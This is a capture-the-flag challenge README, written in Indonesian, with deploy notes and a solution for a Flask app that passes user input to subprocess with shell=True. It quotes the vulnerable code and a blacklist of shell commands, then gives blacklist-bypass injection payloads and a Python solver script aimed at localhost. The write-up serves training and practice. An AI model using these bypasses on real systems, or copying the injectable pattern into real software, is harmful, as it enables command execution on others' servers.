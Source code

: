 # El Kebanteren

## Deskripsi
Prabu Banter I adalah raja yang bijaksana dan adil, dihormati oleh rakyatnya karena kepemimpinannya yang tegas namun penuh kasih. Ia dikenal karena kemampuannya mendengarkan suara rakyat dan membuat keputusan yang bijak dalam memimpin kerajaan yang subur dan makmur. Putranya, Raden Banter II, mewarisi sifat-sifat ayahnya, penuh semangat dan ambisi untuk membawa perubahan yang lebih baik bagi kerajaan, menjadikannya sosok yang diharapkan dapat melanjutkan legasi kebijaksanaan dan keberanian Prabu Banter I.

## Author
abdiery

## To Do ⚠

To Do List yang harus dilakukan setelah melakukan deploy challenge, yaitu menggunakan iptables demi mitigasi dari reverse shell dan cara unintended lainnya.

1. Deploy challenge
2. Masuk pada shell container docker dengan tambahan command --privileged
3. Masukan command berikut
    ```
    iptables -A OUTPUT -p tcp --sport 5000 -j ACCEPT
    iptables -P OUTPUT DROP
    ```

## Solve
Dapat diketahui terdapat sebuah kerentanan code injection di bagian:
```py
    process = subprocess.run(inputed, shell=True, capture_output=True, text=True)
    output = process.stdout
```

Namun terdapat blacklist seperti ini:
```py
    blacklist = [
    "ls", "cat", "rm", "mv", "id", "cp", "wget", "curl", "chmod", "chown", "find", "ps",
    "grep", "awk", "sed", "bash", "sh", "python", "perl", "php", "sudo", "whoami",
    "vi", "vim", "nano", "info", "uname", "more", "head", "less", "tail", "txt", "&&", "|", "`", "$(", ">", "<", "&", "'", '"', "*", "\n"
    ]
```

Untuk melakukan bypass, kita bisa menggunakan payload seperti berikut:

`s=s; l&s` == `ls`

Bila ingin melakukan listing directory, karena terdapat sleep sebesar 0.5 detik sebelum output file dihapus kita bisa menggunakan threading.

Sehingga didapat solver berikut:

```py
import requests
from datetime import datetime
import binascii
requests.packages.urllib3.disable_warnings()
import threading
import subprocess

url = "http://localhost:5000/"

s = requests.Session()

inputed = "d=d; i$d"

data_req = {
    "input": inputed,
    "submit": "Submit"
}

def exp_get_id():
    r = s.post(url + "get_quotes", data=data_req, verify=False)
    get_date_minute = datetime.now().strftime('%Y%m%d%H%M')
    random_number = binascii.hexlify(get_date_minute.encode()).decode()
    filename = f'{random_number}.txt'
    return filename

def get_response():
    r = s.get(url + "generated_quotes/" + exp_get_id(), verify=False)
    # print("Click the link: " + url + "generated_quotes/" + exp_get_id())
    print(r.text)

if __name__ == "__main__":
    threading.Thread(target=get_response).start()
```
